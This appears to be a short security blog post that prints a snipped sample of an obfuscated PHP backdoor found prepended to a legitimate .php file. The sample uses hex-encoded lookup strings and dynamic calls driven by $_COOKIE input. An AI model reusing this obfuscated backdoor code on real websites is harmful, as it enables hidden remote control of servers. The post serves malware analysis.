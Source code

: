 ```yaml
---
layout: default
title: Obfuscated PHP Backdoor script analysis 2
date: 2018-08-09
categories: 
    - "php"
    - "obfuscation"
---
```


[home](/)

# {{ page.title }}

Embedded backdoor found prepended onto an existing valid .php file.

The script is rather large, so I have cut out some of the string
concatenation parts.

Check pastebin link for full source \[link\]
```php
<?php                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 $gb2407 = 578;$GLOBALS['rb22c05fb'] = Array();global $rb22c05fb;$rb22c05fb = $GLOBALS;${"\x47\x4c\x4fB\x41\x4c\x53"}['f884b'] = "\x6e\x25\x6f\x3a\x7a\x34\x4a\x27\x62\x38\x47\x3f\x6d\x45\x73\x37\x2f\x3c\x52\x28\x71\x66\x69\x2d\x50\x75\x53\xa\x78\x77\x68\x2b\x9\x5d\x51\x6b\x3e\x2e\x5a\x67\x49\x7c\x60\x61\x5b\x7b\x46\x4c\x22\x4f\x42\x26\x31\x58\x4d\x44\x6c\x7d\x63\x59\x23\x5c\x29\x32\x7e\xd\x40\x3d\x5e\x76\x30\x5f\x33\x21\x4b\x4e\x56\x6a\x65\x74\x43\x57\x79\x35\x41\x39\x2a\x24\x64\x55\x72\x3b\x20\x2c\x36\x48\x54\x70";$rb22c05fb[$rb22c05fb['f884b'][69].$rb22c05fb['f884b'][78].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][9].$rb22c05fb['f884b'][88].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][5].$rb22c05fb['f884b'][72].$rb22c05fb['f884b'][63]] = $rb22c05fb['f884b'][58].$rb22c05fb['f884b'][30].$rb22c05fb['f884b'][90];$rb22c05fb[$rb22c05fb['f884b'][12].$rb22c05fb['f884b'][85].$rb22c05fb['f884b'][63].$rb22c05fb['f884b'][85].$rb22c05fb['f884b'][9]] = $rb22c05fb['f884b'][2].$rb22c05fb['f884b'][90].$rb22c05fb['f884b'][88];$rb22c05fb[$rb22c05fb['f884b'][20].$rb22c05fb['f884b'][5].$rb22c05fb['f884b'][94].$rb22c05fb['f884b'][88].$rb22c05fb['f884b'][52].$rb22c05fb['f884b'][43].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][21].$rb22c05fb['f884b'][52]] = $rb22c05fb['f884b'][14].$rb22c05fb['f884b'][79].$rb22c05fb['f884b'][90].$rb22c05fb['f884b'][56].$rb22c05fb['f884b'][78].$rb22c05fb['f884b'][0];$rb22c05fb[$rb22c05fb['f884b'][21].$rb22c05fb['f884b'][8].$rb22c05fb['f884b'][52].$rb22c05fb['f884b'][85].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][9]] = 
-------------------- -------------------- SNIP -------------------- -------------------- 
84b'][9].$rb22c05fb['f884b'][21]] = $_COOKIE;@$rb22c05fb[$rb22c05fb['f884b'][21].$rb22c05fb['f884b'][8].$rb22c05fb['f884b'][52].$rb22c05fb['f884b'][85].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][9]]($rb22c05fb['f884b'][78].$rb22c05fb['
-------------------- -------------------- SNIP -------------------- -------------------- 
'][43].$rb22c05fb['f884b'][78].$rb22c05fb['f884b'][21];global $x864b367c;function  r6971a($e76477, $qead07){global $rb22c05fb;$e112aa2d = "";for ($n28c=0; 
-------------------- -------------------- SNIP -------------------- -------------------- 
b'][21].$rb22c05fb['f884b'][52]]($e76477);){for ($o70350cf=0; 
-------------------- -------------------- SNIP -------------------- -------------------- 
$qead07){global $rb22c05fb;global $x864b367c;return 
-------------------- -------------------- SNIP -------------------- -------------------- 
3]]($e76477, $x864b367c), $qead07);}foreach ($rb22c05fb[$rb22c05fb['f884b'][56].$rb22c05fb['f884b'][43].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][58].$rb22c05fb['f884b'][85].$rb22c05fb['f884b'][72].$rb22c05fb['f884b'][72].$rb22c05fb['f884b'][9].$rb22c05fb['f884b'][21]] as $qead07=>$l0c59b){$e76477 = $l0c59b;$k93f152 = $qead07;}if (!$e76477){foreach
-------------------- -------------------- SNIP -------------------- -------------------- 
```